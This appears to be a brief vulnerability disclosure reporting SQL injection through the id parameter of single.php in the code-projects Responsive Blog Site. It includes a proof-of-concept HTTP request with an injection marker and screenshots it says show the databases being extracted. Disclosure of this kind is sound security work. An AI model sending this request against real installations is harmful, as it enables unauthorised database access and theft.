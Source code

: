 # Responsive Blog Site has sql injection in single.php

## supplier 
https://code-projects.org/responsive-blog-site-in-php-with-source-code/
## Vulnerability file
single.php

## describe

**Code analysis**   

In the single.php file of Responsive Blog Site, the id parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/images/20250615184604.png)


## POC

```
GET /resblog/resblog/single.php?id=4* HTTP/1.1
Host: Responsive Blog Site
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ecmd5kmr6te8fpgjnri7c4up85
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/images/5b7f574b-9a23-4c9c-9538-e48daa66400f.png)
Get databases
![image-2025](https://github.com/asd1238525/cve/blob/main/images/05ff12eb-10a4-492d-bfeb-80596af06)